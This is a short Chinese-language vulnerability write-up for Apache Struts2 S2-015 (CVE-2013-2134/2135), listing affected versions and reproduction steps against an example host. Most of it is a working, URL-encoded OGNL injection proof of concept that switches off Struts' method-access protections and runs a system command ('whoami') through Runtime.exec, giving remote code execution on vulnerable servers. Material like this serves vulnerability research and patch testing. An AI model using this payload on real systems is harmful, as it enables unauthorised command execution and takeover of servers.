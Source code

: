 （CVE-2013-2135）（CVE-2013-2134）s2-015
========================================

一、漏洞简介
------------

基于通配符定义的动作映射，如果一个请求跟任何其他定义的操作不匹配，他将会匹配\*，并且请求的同操作名称的jsp文件

二、漏洞影响
------------

2.0.0 - 2.3.14.2

三、复现过程
------------

    http://www.0-sec.org:8080/example/HelloWorld.action

==\>改成

    http://www.0-sec.org:8080/example/%25%7B1%2B1%7D.action

图片.png

### poc

    %24%7B%23context%5B%27xwork.MethodAccessor.denyMethodExecution%27%5D%3Dfalse%2C%23m%3D%23_memberAccess.getClass%28%29.getDeclaredField%28%27allowStaticMethodAccess%27%29%2C%23m.setAccessible%28true%29%2C%23m.set%28%23_memberAccess%2Ctrue%29%2C%23q%3D@org.apache.commons.io.IOUtils@toString%28@java.lang.Runtime@getRuntime%28%29.exec%28%27whoami%27%29.getInputStream%28%29%29%2C%23q%7D.action
